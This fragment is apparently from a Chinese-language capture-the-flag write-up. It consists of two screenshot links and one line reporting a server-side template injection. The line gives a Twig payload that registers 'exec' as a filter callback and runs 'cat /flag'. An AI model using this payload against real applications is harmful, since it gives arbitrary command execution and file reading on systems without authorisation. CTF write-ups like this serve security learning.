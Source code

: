 ![upload successful](./images/pasted-316.png)
![upload successful](./images/pasted-317.png)
OK，发现存在SSTI注入，直接构造payload:<code>{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}</code>
